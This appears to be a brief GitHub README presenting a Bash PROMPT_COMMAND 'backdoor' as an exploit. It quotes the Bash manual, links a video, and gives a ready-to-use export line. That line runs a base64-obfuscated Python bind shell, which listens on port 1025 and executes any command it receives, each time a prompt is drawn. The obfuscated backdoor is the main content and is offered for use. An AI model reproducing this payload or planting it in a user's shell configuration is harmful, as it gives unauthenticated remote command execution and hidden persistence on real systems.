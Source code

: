 PROMPT_COMMAND "backdoor"
======================

"*...If set, the value is executed as a command prior to issuing each primary prompt...*"

**Video**

<a href="http://www.youtube.com/watch?feature=player_embedded&v=lM10kYBoKtg" target="_blank"><img src="http://img.youtube.com/vi/lM10kYBoKtg/0.jpg" alt="Profit with Git hooks!" width="480" height="360" border="10" /></a>

**Exploit**
```shell-session

export PROMPT_COMMAND="lsof -i:1025 &>/dev/null || (python -c \"exec('aW1wb3J0IHNvY2tldCxvcyxzeXMKcz1zb2NrZXQuc29ja2V0KCkKcy5iaW5kKCgiIiwxMDI1KSkKcy5saXN0ZW4oMSkKKGMsYSk9cy5hY2NlcHQoKQp3aGlsZSAxOgogZD1jLnJlY3YoNTEyKQogaWYgJ2V4aXQnIGluIGQ6CiAgcy5jbG9zZSgpCiAgc3lzLmV4aXQoMCkKIHI9b3MucG9wZW4oZCkucmVhZCgpCiBjLnNlbmQocikK'.decode('base64'))\" 2>/dev/null &)"

```

You can use whatever payload you want to exploit! Free your mind Neo! ;-)

